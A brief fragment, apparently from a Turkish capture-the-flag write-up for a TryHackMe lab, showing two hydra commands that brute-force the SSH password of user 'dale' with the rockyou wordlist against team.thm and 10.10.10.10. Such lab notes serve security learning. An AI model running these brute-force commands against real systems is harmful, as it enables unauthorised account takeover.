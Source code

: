 *** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```

